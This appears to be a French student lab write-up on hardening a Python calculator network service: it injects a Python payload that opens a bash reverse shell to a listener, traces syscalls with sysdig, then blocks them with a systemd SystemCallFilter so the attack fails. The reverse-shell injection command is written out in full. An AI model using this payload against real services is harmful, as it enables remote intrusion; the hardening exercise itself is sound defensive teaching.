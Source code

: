 ```
telos@TELOS-COMPUTER:~$ echo "__import__('os').system('bash -i >& /dev/tcp/172.27.206.51/4444 0>&1')" | nc 10.1.1.12 13337
Hello
```

```
telos@TELOS-COMPUTER:~$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 172.27.192.1 32902
bash: cannot set terminal process group (1565): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ id
id
uid=995(calculatrice) gid=992(calculatrice) groups=992(calculatrice) context=system_u:system_r:unconfined_service_t:s0
bash-5.1$
```

```
[telos@vbox ~]$ sysdig -r Hackcalc.scap | cut -d' ' -f7 | sort | uniq | tr -s '\n' ' '
accept4 access arch_prctl bind brk clone3 close dup epoll_create1 execve exit_group fcntl fstat futex getdents64 getegid geteuid getgid getpeername getrandom getsockname getuid ioctl listen lseek mmap mprotect munmap newfstatat openat pread prlimit procexit read readlink recvfrom rseq rt_sigaction rt_sigprocmask sendto set_robust_list setsockopt set_tid_address signaldeliver socket switch sysinfo wait4 write
```

On remarque 4 nouveaux syscalls uniquement présent lors du Hack de l'application calc.py : ``clone3``, ``rt_sigprocmask``, ``signaldeliver``, ``wait4``

🌞 Adaptez le .service

```
[telos@vbox ~]$ sudo cat /etc/systemd/system/calculatrice.service
[Unit]
Description=Super serveur calculatrice

[Service]
User=calculatrice
Group=calculatrice
ExecStart=/usr/bin/python3 /opt/calc.py
Restart=always
SystemCallFilter=~clone3 rt_sigprocmask signaldeliver wait4
```

```
telos@TELOS-COMPUTER:~$ nc -lvnp 4444
Listening on 0.0.0.0 4444

```

```
telos@TELOS-COMPUTER:~$ echo "__import__('os').system('bash -i >& /dev/tcp/172.27.206.51/4444 0>&1')" | nc 10.1.1.12 13337
Hellotelos@TELOS-COMPUTER:~$ nc 10.1.1.12 13337
Hello3+3
6Hello9%2
1Hello^C
```

L'exploitation est devenue plus compliquée car lorsqu'on veut injecter le payload, le nc est directement coupé. Mais lors d'une utilisation normal de la calculatrice, tout fonctionne.
